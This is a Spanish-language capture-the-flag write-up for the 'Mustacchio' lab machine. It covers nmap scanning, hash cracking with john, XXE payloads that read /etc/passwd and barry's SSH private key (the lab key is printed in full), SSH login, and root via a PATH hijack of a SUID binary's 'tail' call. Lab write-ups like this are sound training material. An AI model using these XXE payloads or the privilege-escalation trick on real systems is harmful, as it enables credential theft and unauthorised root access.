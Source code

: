 # Mustacchio

## Scanning

```bash
nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n -oG allports 10.10.0.151
nmap -sC -sV -p 22,80 -Pn -n -oN targeted 10.10.0.151
```

![0814160418.png](0814160418.png)

## 80

Para la página usamos wfuzz para buscar carpetas en la página. Encontramos que existe la carpeta custom y dentro la carpeta js donde podemos ver el archivo `users.bak`.

![0814160416.png](0814160416.png)

Usamos el comando file para saber que tipo de archivo es.

![0814170529.png](0814170529.png)

Usaremos la herramienta que tenemos en parrot llamada sqlitebrowser para importar el archivo que debemos cambiar el nombre a '**users.sqlite**' aquí encontraremos un usuario y una contraseña o podría ser un hash.

![0814170503.png](0814170503.png)

Descubrimos que es algún tipo de sha1 así que usaremos john para crackear la contraseña.
![0814170546.png](0814170546.png)

## 8765

En https://IP:8765 encontramos un panel de administración donde podemos probar las credenciales que encontramos anteriormente.

![0816180630.png](0816180630.png)

En el código fuente encontramos un enlace como comentario. También había un comentario indicando que se podía entrar por ssh, esto lo tomaremos en cuenta más adelante.

![0816180626.png](0816180626.png)

Lo descargamos y encontramos que es un archivo xml.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Este es un ejemplo de como enviar el comentario que te dan en el sitio web. Usaremos el siguiente código para probar el xxe.

## XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Como nos dieron la pista de que se puede ingresar con ssh entonces buscaremos si tiene algún id_rsa para conectarse con los usuarios que encontramos con la anterior consulta(`joe` y `barry`).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>miaumilliano</author>
  <com>meow</com>
</comment>
```

Con barry encontramos resultados.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

Vemos que esta encriptado pero podemos usar ssh2john para encontrar la contraseña necesaria para usar esta id_rsa.

```bash
python2 /usr/share/john/ssh2john.py id_rsa > id_rsa.john

john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

![0816180616](0816180616.png)

Ahora que encontramos la clave podemos ingresar al usuario barry.

```bash
ssh barry@10.10.211.98 -i id_rsa
```

![0816190721](0816190721.png)

## Privilege scalation

### SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

![0816190711](0816190711.png)

**/home/joe/livelog** parece ser un archivo sospechoso.
Al ejecutarlo podemos ver que lee los logs de la aplicación web.

Con la función ltrace vemos de que hace uso del comando tail
pero no usa una ruta absoluta por lo que podriamos cambiar el path para que busque primero en los archivos temporales un comando tail modificado que pueda ejecutar una terminal con los permisos que el SUID nos permita.

![0816190701](0816190701.png)

```
cd /tmp
echo "/bin/bash" > tail
chmod +x tail

export PATH=/tmp:$PATH
/home/joe/live_log
```

![0816190759](0816190759.png)

